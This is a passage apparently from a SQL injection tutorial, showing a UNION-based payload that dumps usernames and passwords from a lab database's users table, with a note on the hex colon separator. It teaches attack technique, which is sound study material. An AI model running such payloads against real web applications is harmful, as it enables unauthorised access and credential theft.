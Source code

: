 Columns `username` and `password` seems interesting, so let's list its content:

```sql
1'union select 1,group_concat(username,0x3a,password),3 from ruycr4ft.users-- -
```

![](/assets/img/SQLi/18.png)

>**Note:** `0x3a` is equal to `:` in hexadecimal.

This is how we could enumerate the whole database without knowing credentials!

>**Important:** SQLi Time Based and Boolean Based will be posted soon!